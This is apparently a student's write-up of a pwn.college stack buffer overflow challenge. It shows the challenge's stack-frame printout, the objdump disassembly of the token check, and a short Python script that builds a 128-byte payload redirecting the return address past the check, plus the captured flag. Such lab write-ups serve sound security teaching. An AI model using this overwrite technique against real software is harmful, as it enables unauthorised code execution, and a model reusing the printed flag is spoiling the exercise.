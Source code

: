 # Tricky Control Hijack

## Challenge
Overflow a buffer and smash the stack to obtain the flag, but this time bypass another check designed to prevent you from getting the flag!

## Solve
**Flag:** `pwn.college{Q3GBdwFEi4R0CRTCd33Od7cFwSG.dlTOywyNyAzNzEzW}`

#### Gathering Info
In the `/challenge` directory, we are given **3 files:**
- DESCRPIPTION.md
- binary-exploitation-control-hijack-2-w
- binary-exploitation-control-hijack-2-w.c

`cat`ting `.c` file, I see that lots of information about the challenge was printed in **formatted strings** so I try to run the challenge once.

The output was as follows:
```
The challenge() function has just been launched!
Before we do anything, let's take a look at challenge()'s stack frame:
+---------------------------------+-------------------------+--------------------+
|                  Stack location |            Data (bytes) |      Data (LE int) |
+---------------------------------+-------------------------+--------------------+
| 0x00007ffc68765d00 (rsp+0x0000) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffc68765d08 (rsp+0x0008) | c8 6e 76 68 fc 7f 00 00 | 0x00007ffc68766ec8 |
| 0x00007ffc68765d10 (rsp+0x0010) | b8 6e 76 68 fc 7f 00 00 | 0x00007ffc68766eb8 |
| 0x00007ffc68765d18 (rsp+0x0018) | a0 86 10 31 01 00 00 00 | 0x00000001311086a0 |
| 0x00007ffc68765d20 (rsp+0x0020) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffc68765d28 (rsp+0x0028) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffc68765d30 (rsp+0x0030) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffc68765d38 (rsp+0x0038) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffc68765d40 (rsp+0x0040) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffc68765d48 (rsp+0x0048) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffc68765d50 (rsp+0x0050) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffc68765d58 (rsp+0x0058) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffc68765d60 (rsp+0x0060) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffc68765d68 (rsp+0x0068) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffc68765d70 (rsp+0x0070) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffc68765d78 (rsp+0x0078) | 00 00 00 00 fc 7f 00 00 | 0x00007ffc00000000 |
| 0x00007ffc68765d80 (rsp+0x0080) | 90 11 40 00 00 00 00 00 | 0x0000000000401190 |
| 0x00007ffc68765d88 (rsp+0x0088) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffc68765d90 (rsp+0x0090) | c0 6d 76 68 fc 7f 00 00 | 0x00007ffc68766dc0 |
| 0x00007ffc68765d98 (rsp+0x0098) | ba 28 40 00 00 00 00 00 | 0x00000000004028ba |
+---------------------------------+-------------------------+--------------------+
Our stack pointer points to 0x7ffc68765d00, and our base pointer points to 0x7ffc68765d90.
This means that we have (decimal) 20 8-byte words in our stack frame,
including the saved base pointer and the saved return address, for a
total of 160 bytes.
The input buffer begins at 0x7ffc68765d20, partway through the stack frame,
("above" it in the stack are other local variables used by the function).
Your input will be read into this buffer.
The buffer is 92 bytes long, but the program will let you provide an arbitrarily
large input length, and thus overflow the buffer.

In this level, there is no "win" variable.
You will need to force the program to execute the win_authed() function
by directly overflowing into the stored return address back to main,
which is stored at 0x7ffc68765d98, 120 bytes after the start of your input buffer.
That means that you will need to input at least 128 bytes (92 to fill the buffer,
28 to fill other stuff stored between the buffer and the return address,
and 8 that will overwrite the return address).

We have disabled the following standard memory corruption mitigations for this challenge:
- the canary is disabled, otherwise you would corrupt it before
overwriting the return address, and the program would abort.
- the binary is *not* position independent. This means that it will be
located at the same spot every time it is run, which means that by
analyzing the binary (using objdump or reading this output), you can
know the exact value that you need to overwrite the return address with.

You have chosen to send 4096 bytes of input!
This will allow you to write from 0x7ffc68765d20 (the start of the input buffer)
right up to (but not including) 0x7ffc68766d20 (which is 4004 bytes beyond the end of the buffer).
Of these, you will overwrite 3976 bytes into the return address.
If that number is greater than 8, you will overwrite the entire return address.

One caveat in this challenge is that the win_authed() function must first auth:
it only lets you win if you provide it with the argument 0x1337.
Speifically, the win_authed() function looks something like:
    void win_authed(int token)
    {
      if (token != 0x1337) return;
      puts("You win! Here is your flag: ");
      sendfile(1, open("/flag", 0), 0, 256);
      puts("");
    }

So how do you pass the check? There *is* a way, and we will cover it later,
but for now, we will simply bypass it! You can overwrite the return address
with *any* value (as long as it points to executable code), not just the start
of functions. Let's overwrite past the token check in win!

To do this, we will need to analyze the program with objdump, identify where
the check is in the win_authed() function, find the address right after the check,
and write that address over the saved return address.

Go ahead and find this address now. When you're ready, input a buffer overflow
that will overwrite the saved return address (at 0x7ffc68765d98, 120 bytes into the buffer)
with the correct value.
```

#### Key Takeaways:
**The Big Idea:**
- A function's stack frame is a little box of memory created when the function runs. 
- The program reads input into a fixed-size input buffer inside that box.
- If we give more bytes than the buffer can hold, those extra bytes continue writing into the rest of the box (for vulnerable files).

**Things Given to Us:**
- The stack pointer points to `0x7ffc68765d00` and the base pointer points to `0x7ffc68765d90`.
- We have a total of (decimal) **160 bytes** in our stack frame including `rsp` and `rbp`.
- The input buffer begins at `0x7ffc68765d20`, partway through the stack frame.
- Although the input buffer is (decimal) **92 bytes** long, we are allowed to overfow it.
- Address of **main** method is `0x7ffc68765d98` which is 120 bytes after the input buffer.
- The method responsible for giving us the flag is `win_authed()`. It only does so if the value of the variable `token` is set to `0x1337`.

#### The Aim
- Create a **128 byte** payload.
    - 92 bytes for input buffer.
    - 28 bytes for local variables.
    - 8 bytes to over-write the main return address.
- There are two methods to do this:
    - Hard
    - Easy
- **Hard**
    - Over-write the `main` address to `win_authed()` AND set the `token` value to `0x1337`.
- **Easy ( - the method I implemented ).**
    - Over-write the `main` address to an offset of `win_authed()` after it checks the token value and runs the next instruction.
    - Using `objdump` I found that address to be `0x40214f`.
    ```asm
    402142: cmpl $0x1337,-0x4(%rbp)   ; compare token to 0x1337
    402149: jne 40224d                ; jump to end if not equal
    40214f: lea 0xf9a(%rip),%rdi      ; first instruction after the check
    402156: call puts@plt
    ```
    - The very next instruction prints out the flag.
- ***Therefore, the first 120 bytes of the input are filler bytes and the last 8 bytes are the return address to instruction which prints the flag.***

#### Payload Used
```python
import struct

OFFSET = 120                      # bytes until the saved return address (from the challenge text)
TARGET_ADDR = 0x40214f            # address right after the token check in win_authed (little-endian)

payload = b"A" * OFFSET
payload += struct.pack("<Q", TARGET_ADDR)   # 8 bytes, little-endian

# Ensure no newline appended and exact length
with open("payload.bin", "wb") as f:
    f.write(payload)
```

#### Commands Used
```
python script.py
cat payload.bin | /challenge/./binary-expolitation-hijack-2-w
```


## New Learnings
- Using `gdb` to debug the code.
- Using `objdump` with `-d` flag to disassemble code and figuring out the function addresses in the memory.
